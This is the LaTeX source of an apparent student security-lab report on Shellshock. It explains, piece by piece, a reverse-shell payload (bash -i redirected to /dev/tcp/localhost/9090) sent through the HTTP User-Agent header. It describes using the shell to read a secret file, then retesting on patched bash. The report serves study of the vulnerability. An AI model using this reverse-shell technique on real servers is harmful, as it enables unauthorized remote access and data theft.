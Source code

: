 \documentclass[11pt]{article}
\newcommand{\fig}[2]{ 
\begin{figure}[h]
	\centering
	\caption{#2}
	\texttt{[image: pics/\#1]}
	\label{fig:#1}
\end{figure} 
}
\begin{document}
Let's start with the basics. The curl command tells the shell to run a network request and the url at the end tells the shell where to go. Now lets view the environment variable passed into the network request (remember, this value populates HTTP\_USER\_AGENT). We first tell the shell what type information to look for (echo Content-type ...). The interesting stuff starts with /bin/bash. This command tells the server to run a bash shell.

In addition to running the shell, there are a number of arguments passed in. The first is `-i,' this tells the server that the shell should be interactive. Then there are three redirect actions.

\begin{enumerate}
	\item $>$ /dev/tcp/localhost/9090: This redirects the output of the bash shell to port 9090. Remember, we set up a shell to listen there for this very purpose.
	\item 0$<$\&1: 0 is what receives input from the user. By this command, we are telling the shell to receive input from wherever 1 is pointing at. Because 1 points to output, the previous command sets up 1 to print to port 9090. This means 0 receives input from port 9090 as well.
	\item 2$>$\&1: 2 points to standard error. This command tells standard error to go wherever standard out goes. As discussed before, this is to port 9090.
\end{enumerate}

\fig{task5.1}{Setting up reverse shell}

Figures \ref{fig:task5.2} and \ref{fig:task5.3} show the reverse shell in action. As a web user. I was able to open a shell and use /bin/cat to read the secret file created for Task 4. This shows how vulnerable the shellshock attack is. I had full a full on shell that I could run on the server just as a regular web user. It is important to note that I did not have root access (shown with the whoami command), but it is a lot of power nonetheless.

\fig{task5.2}{Running reverse shell}

\fig{task5.3}{Reading secret file}

\newpage

\section*{Task 6}

Task 6 repeats the steps from Task 3 and Task 5 but with the patched version of bash. Figure \ref{fig:task6.1} shows the contents of patched.cgi. Note that the shell used is /bin/bash instead of /bin/bash\_shellshock. Figure \ref{fig:task6.2} repeats Task 3, showing that we can send environment variables to the server from the client.
\end{document}
